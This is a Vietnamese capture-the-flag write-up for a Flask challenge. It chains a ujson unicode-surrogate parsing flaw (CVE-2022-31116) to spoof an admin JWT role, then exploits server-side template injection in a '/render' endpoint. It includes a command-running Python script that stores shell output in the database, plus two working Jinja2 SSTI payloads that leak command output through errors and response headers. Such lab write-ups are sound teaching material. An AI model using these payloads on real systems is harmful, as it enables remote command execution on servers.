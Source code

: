 ![image](https://github.com/user-attachments/assets/d9dcebbe-a5f6-4dc2-8d9a-e270919008d3)

Đọc source code thì thấy mục tiêu của bài là phải bypass vào admin để vào được `/render` để attack ssti
```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401
```

Lúc đầu mình định làm theo hướng bypass jwt nhưng sau một hồi tìm kiếm thì không thấy vuln gì. Chuyển sang tìm chỗ khác thì thấy `ujson.loads` có [CVE-2022-31116](https://security.snyk.io/vuln/SNYK-PYTHON-UJSON-2942122) . Về cơ bản của CVE này là khi chèn một số giá trị escape unicode vào thì `ujson.load` sẽ xóa giá trị đó đi.
```python
>>> ujson.loads(r'"\uD800"')
' '
>>> ujson.loads(r'"\uD800hello"')
'hello'

# An unpaired low surrogate character is preserved.
>>> ujson.loads(r'"\uDC00"')
'\udc00'
```

Qua đó mà có thể bypass check admin. Build trên local để test payload

![image](https://github.com/user-attachments/assets/86e6ed7a-d9f0-4227-bb08-4c53d9f8cb84)

Ở đây mình có setup debug thì thấy sau khi đi qua hàm `ujson.load` đã được chuyển thành `admin`

![image](https://github.com/user-attachments/assets/b0a23c89-4523-4b73-82c6-be71f52cd361)

Thực hiện đang nhập vào thì đã vào đc trang `/render`

Do route `/render` không gửi về nội dung sau khi render template nên mình đã thử các payload blinding nhưng trên server không có curl, wget thì bị xóa đi lúc build, dns thì bị chặn. Giờ chỉ còn cách là sử dụng timing check, việc viết script mất khá là nhiều thời gian. Sau khi xem lại source code thì mình tìm được một hướng mới. Do khi login sẽ được trả về token phần payload có chứa role, ta có thể tận dụng chèn output của shell sau khi chạy vào đây. Ý tưởng là viết code python để insert dữ liệu sau khi chạy command vào giá trị trường role của một user, sử dụng module `sqlite` và `os` có sẵn.

```python
import sqlite3
import os

def connect_to_db(db_file):
    try:
        conn = sqlite3.connect(db_file, check_same_thread=False)
        print "Connected to SQLite database successfully"
        return conn
    except sqlite3.Error as e:
        print "Error connecting to database:", e
        return None
output = str(os.popen("ls /app").read())
database_file = "database.db"
connection = connect_to_db(database_file)
cursor = connection.cursor()
query = "UPDATE users SET role = ? WHERE username = 'test'"
cursor.execute(query, (output,))
connection.commit()
connection.close()

```

Payload

![image](https://github.com/user-attachments/assets/2aae1a8e-58a6-4731-ae2f-8567c58faef6)

Mình có thực hiện mã hóa base64 để giúp đẩy code lên dễ hơn. Login vào để xem output

![image](https://github.com/user-attachments/assets/27631e22-8c48-455e-afad-cc934c3df6cf)

Ngoài ra còn 2 hướng nữa là:

Lấy dữ liệu theo exception

```{"template": "{%set res=lipsum.__globals__['os']['popen']('cat 7j6dlcuix63r').read()%}{{lipsum.__globals__['os'][res]()}}"}```

Lấy dữ liệu đấy về response header

```{{g.pop.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",g.pop.__globals__.__builtins__.__import__('os').popen('whoami').read())}}```
Oke vậy là đã thành công, giờ chỉ việc cat flag và submit thôi.

